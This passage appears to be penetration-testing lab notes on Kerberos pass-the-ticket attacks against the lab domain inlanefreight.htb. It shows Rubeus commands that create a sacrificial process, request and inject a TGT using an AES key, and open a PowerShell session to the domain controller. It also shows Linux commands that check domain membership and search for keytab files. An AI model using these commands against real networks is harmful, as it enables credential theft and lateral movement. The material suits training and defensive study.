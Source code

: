 #### Create a Sacrificial Process with #Rubeus
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.
#### #Rubeus - Pass the Ticket for Lateral Movement
```cmd
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

<snip>

[+] Ticket successfully imported!

c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
```

#linux/auth/pass-the-ticket
# Kerberos on Linux
In most cases, Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in the `/tmp` directory. By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.

Another everyday use of Kerberos in Linux is with [keytab](https://kb.iu.edu/d/aumh) files.
## Identifying Linux and Active Directory Integration
```bash
# realm - Check If Linux Machine is Domain Joined
realm list

inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins

# PS - Check if Linux Machine is Domain Joined
ps -ef | grep -i "winbind\|sssd"
```
In case [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd) is not available, we can also look for other tools used to integrate Linux with Active Directory such as [sssd](https://sssd.io/) or [winbind](https://www.samba.org/samba/docs/current/man-html/winbindd.8.html)
## Finding Kerberos Tickets in Linux
```bash
find / -name *keytab* -ls 2>/dev/null

```